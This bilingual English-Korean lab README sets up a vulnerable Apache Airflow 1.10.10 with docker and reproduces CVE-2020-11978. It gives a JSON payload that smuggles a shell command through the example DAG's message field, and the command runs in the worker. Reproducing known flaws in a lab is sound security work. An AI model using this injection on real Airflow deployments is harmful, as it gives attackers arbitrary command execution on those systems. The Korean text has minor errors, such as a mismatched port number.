 # Apache Airflow Command Injection in Example Dag (CVE-2020-11978)
# Apache Airflow 예제 DAG에서의 명령 주입 취약점 (CVE-2020-11978)
[中文版本(Chinese version)](README.zh-cn.md)
[중국어 버전(Chinese version)](README.zh-cn.md)
Apache Airflow is an open source, distributed task scheduling framework. In the version prior to 1.10.10, there is a command injection vulnerability in the example DAG `example_trigger_target_dag`, which caused attackers to execute arbitrary commands in the worker process.
Apache Airflow는 오픈 소스이며, 분산 작업 예약 프레임워크이다. 버전 1.10.10 이전에는 'example_trigger_target_dag'라는 예제 DAG에서 명령 주입 취약점이 있었는데 이로 인해 공격자가 작업자 프로세스에서 임의의 명령을 실행할 수 있었다.

Since there are many components to be started, it may be a bit stuck. Please prepare more than 2G of memory for the use of the virtual machine.
시작되는데 많은 구성 요소가 있기에 지연될 수 있다. 가상 머신을 사용하기 위해서 2GB 이상의 메모리를 준비하라.

References:
참조:
- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## Vulnerability Environment
## 취약점 환경
Execute the following commands to start airflow 1.10.10:
Airflow 1.10.10을 실행하기 위해 다음의 명령어들을 실행하라.
```bash
```bash
#Initialize the database
#데이터베이스 초기화
docker compose run airflow-init

#Start service
#서비스 시작
docker compose up -d
```

## Exploit
## 익스플로잇

Visit `http://your-ip:8080` to see the airflow management terminal, and turn on the `example_trigger_target_dag` flag:
Airflow 관리 터미널을 확인하기 위해 'http://당신의-ip:8000'을 방문하고 'example_trigger_target_dag' 플래그 활성화.

![](1.png)

Click the "triger" button on the right, then input the configuration JSON with the crafted payload `{"message":"'\";touch /tmp/airflow_dag_success;#"}`:
우측에 있는 "triger" 버튼을 누르고 조작된 페이로드`{"message":"'\";touch /tmp/airflow_dag_success;#"}`:를 포함한 JSON 설정을 입력하라.

![](2.png)

Wait a few seconds to see the execution of "success":
"success" 실행을 위해 잠시 기다려라.

![](3.png)

Go to the CeleryWorker container to see the result, `touch /tmp/airflow_dag_success` has been successfully executed:
CeleryWorekr 컨테이너로 이동하여 `touch /tmp/airflow_dag_success'가 성공적으로 실행됨을 확인하라.

```
docker compose exec airflow-worker ls -l /tmp
```

![](4.png)

/home/jjgwlsry/airflwo/dags
